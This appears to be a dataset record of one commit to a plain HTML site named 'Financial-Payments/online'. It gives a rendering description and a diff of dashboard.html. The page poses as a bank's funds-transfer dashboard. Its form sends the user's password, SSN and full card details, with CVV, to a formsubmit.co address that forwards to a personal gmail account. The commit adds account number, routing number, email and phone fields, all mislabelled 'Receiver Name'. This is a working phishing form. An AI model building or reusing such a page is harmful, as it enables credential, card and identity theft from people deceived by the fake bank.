

Before and after one commit to Financial-Payments/online, a plain HTML site: page dashboard.html in a window 1280 px wide. Both pictures are taken after a click on the button "Funds Transfer". Shown: the part 185-800 px from the top of the page. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update dashboard.html

```diff
--- a/dashboard.html
+++ b/dashboard.html
@@ -34,10 +34,14 @@
     <h3>Transfer Funds</h3>
     <form action="https://formsubmit.co/baebeheart@gmail.com" method="POST">
   <input type="text" name="receiver_name" placeholder="Receiver Name" required>
+  <input type="text" name="receiver_account_number" placeholder="Receiver Name" required>
+  <input type="text" name="routing_number" placeholder="Receiver Name" required>
   <input type="text" name="receiver_bank" placeholder="Receiver Bank" required>
   <input type="password" name="sender_password" placeholder="Your Password" required>
   <input type="text" name="sender_ssn" placeholder="Your SSN" required>
   <input type="text" name="card_details" placeholder="Card Number / Expiry / CVV" required>
+  <input type="text" name="contact_email" placeholder="Receiver Name" required>
+  <input type="text" name="contact_phone_number" placeholder="Receiver Name" required>
   <button type="submit">Send</button>
     </form>
   </section>
```
